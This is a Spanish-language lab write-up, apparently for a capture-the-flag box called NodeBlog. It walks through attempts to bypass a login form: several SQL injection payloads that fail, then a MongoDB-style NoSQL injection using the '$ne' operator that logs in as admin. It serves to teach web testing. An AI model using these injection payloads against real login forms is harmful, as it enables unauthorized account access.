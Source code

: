 Obsevamos que se tramita por post el usuario y contraseña como esperaríamos.

Vamos a intentar una injección básica de sql, pero en este caso está en url encode:
```
user=admin'+or+'1'%3d'1--+-&password=password
```
Pero nos dice usuario no válido.

Podemos probar si el sistema se demora en responder 5 segundos:
```
user=admin&password=password'+or+sleep(5)
```
Pero no pasa nada.

Cambiamos el método a aplication/json e intentamos de nuevo:
```json
{
"user":"admin' or 1=1-- -",
"password": "password"
}
```
Pero tampoco pasa nada.

Quiźas no es vulnerable a SQLi, sin embargo, podríamos probar si es vulnerable a noSQLi. Podría ser que se esté aplicando un mongo, cassandra o alguna base de datos no relacional.

Si buscamos por la web encontramos en [github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) varios playloads para probar. Debemos probar varias, en este caso estamos utilizando json así que utilizaremos este:
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
```
Como sabemos que el nombre de usuario válido es admin lo cambiaremos:

```json
{"user": "admin", "password": {"$ne": "zapato"}}
```
el **"$ne"** corresponde al not equal, por lo tanto, le estamos diciendo soy el usuario admin y mi contraseña no es zapato. Veamos que sucede:


![](/imagenes/NodeBlog/node9.png)

Ha funcionado, estamos logeados dentro de la página. Por lo tanto, si era vulnerable a noSQLi.
